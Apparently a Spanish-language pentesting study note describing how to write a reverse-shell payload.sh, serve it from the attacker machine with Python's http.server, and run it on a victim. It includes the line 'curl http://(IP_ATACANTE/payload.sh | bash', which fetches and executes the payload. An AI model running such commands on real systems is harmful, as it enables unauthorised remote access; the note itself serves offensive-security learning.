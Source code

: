 - Vamos a crear una pagina web usando Python para traspasarnos archivos de la maquina victima  a la atacante.


- Vamos a crear un `payload.sh` con `nano`.
- Vamos a escribir una reverse shell
![](../Imagenes/Pasted%20image%2020241211185224.png)
==Se usa .sh (Script de shell) porque son ampliamente compatibles con sistemas Unix y Linux==
- Guardamos.
- Ahora, como podemos compartir este archivo con la maquina victima?
- Usamos el comando:
```
python3 -m http.server 80
```
- Esto levanta una pagina por el puerto 80 que nos permitirá ingresar y descargar lo que subamos a esta pagina.
![](../Imagenes/Pasted%20image%2020241211185936.png)
- Ingresamos la IP en el buscador de internet de la maquina victima y ya estaríamos viendo el archivo que creamos.
![](../Imagenes/Pasted%20image%2020241211194226.png)
- Lo podemos descargar

- También tenemos otra forma de como ejecutarlo usando la terminal de la maquina victima, y es con el siguiente comando:
```
curl http://(IP_ATACANTE/payload.sh | bash
```
- Ponemos la IP de la maquina atacante seguido del nombre del archivo.
- Nos mantenemos en escucha desde la maquina atacante y ejecutamos el comando desde la maquina victima.